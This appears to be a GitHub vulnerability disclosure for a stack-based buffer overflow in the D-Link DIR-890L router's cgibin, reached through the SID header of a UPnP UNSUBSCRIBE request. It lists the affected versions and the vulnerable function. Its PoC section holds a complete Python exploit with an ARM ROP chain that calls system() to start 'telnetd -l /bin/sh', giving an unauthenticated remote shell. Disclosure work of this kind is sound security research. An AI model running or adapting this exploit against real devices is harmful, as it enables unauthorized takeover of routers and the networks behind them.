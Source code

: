 # Information

**Vendor of the products:**    D-Link

**Reported by:**    WangJincheng(<wjcwinmt@outlook.com>) && FeiXincheng(<FXC030618@outlook.com>)

**Affected products:**    D-Link DIR-890L <= v1.07B09

**Vendor Homepage:**    [https://www.dlink.com](https://www.dlink.com "https://www.dlink.com")

# Overview

The LAN-side Web-Configuration Interface has `Stack-based Buffer Overflow vulnerability` in the `D-Link` Wi-Fi router firmware `DIR-890L DIR890LA1_FW107b09.bin` and previous versions. 

The function created at `0x17958` of `/htdocs/cgibin` will call `sprintf` without checking the length of strings in parameters given by `HTTP header` and can be controlled by users easily.

The attackers can exploit the vulnerability to carry out arbitrary code by means of sending a specially constructed payload to port `49152`.

# Vulnerability Description

The vulnerability is detected at `/htdocs/cgibin`.

There is a `Stack-based Buffer Overflow vulnerability` in the function created at `0x17A60`. When we use `UNSUBSCRIBE` request, it will call the `sub_17958` function which created at `0x17958`.

![image](https://github.com/winmt/CVE/blob/main/DIR-890L/pic/1-1.jpg)

However, in the `sub_17958` function, it will call `sprintf` without checking the length of `v2`, which causes the `stack overflow`. The `v2` here is `SID` parameter given by `HTTP header`.

![image](https://github.com/winmt/CVE/blob/main/DIR-890L/pic/1-2.jpg)

# Poc

```python
# python3
from pwn import *
from socket import *
from os import *
from time import *
context(os = 'linux', arch = 'arm')

libc_base = 0xb6f7e000

s = socket(AF_INET, SOCK_STREAM)

cmd = b'telnetd -l /bin/sh;'
payload = b'a'*449
payload += p32(libc_base + 0x18298) # pop {r3, pc};
payload += p32(libc_base + 0x406f8) # mov r0, r1; pop {r3, pc};
payload += p32(libc_base + 0x390fc) # pc add r1, sp, #0x2c; blx r3;
payload += b'a'*4 # padding
payload += p32(libc_base + 0x5a270) # pc system
payload += b'a'*(0x2c-8) # padding
payload += cmd

msg = b"UNSUBSCRIBE /gena.cgi?service=0 HTTP/1.1\r\n"
msg += b"Host: localhost:49152\r\n"
msg += b"SID: " + payload + b"\r\n\r\n"

s.connect((gethostbyname("192.168.0.1"), 49152))
s.send(msg)

sleep(1)
system("telnet 192.168.0.1 23")
```

# Get Shell

![image](https://github.com/winmt/CVE/blob/main/DIR-890L/pic/2-0.jpg)

Scan ports before exploit the vulnerability.

![image](https://github.com/winmt/CVE/blob/main/DIR-890L/pic/2-1.jpg)

Exploit the vulnerability and get shell successfully.

![image](https://github.com/winmt/CVE/blob/main/DIR-890L/pic/2-2.jpg)

Scan ports again and we can dectect that the port `23` which represents `Telnet` service has been opened.

![image](https://github.com/winmt/CVE/blob/main/DIR-890L/pic/2-3.jpg)
